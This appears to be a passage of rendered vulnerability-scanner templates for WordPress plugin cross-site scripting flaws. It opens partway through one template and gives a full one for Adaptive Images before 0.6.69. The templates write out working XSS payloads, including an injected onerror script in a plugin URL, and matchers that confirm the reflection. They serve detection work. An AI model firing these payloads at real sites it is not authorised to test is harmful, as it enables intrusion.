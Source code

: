 ```
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<svg/onload=alert(/XSS/)>
    2. settings_page_seo-redirection
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Adaptive Images \< 0.6.69 - Cross-Site Scripting
## Description
- WordPress Adaptive Images \< 0.6.69 is susceptible to cross-site scripting because the plugin does not sanitize and escape the REQUEST_URI before outputting it back in a page.
- severity - high
- tags - wpscan,wordpress,xss,wp-plugin,wp
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/adaptive-images/adaptive-images-script.php/%3Cimg/src/onerror=alert(document.domain)%3E/?debug=true
### Matchers

**Type - word**
- words
    1. \<img/src/onerror=alert(document.domain)>
    2. \<td>Image\</td>
- condition - and

**Type - word**
- part - header
- words
    1. text/html
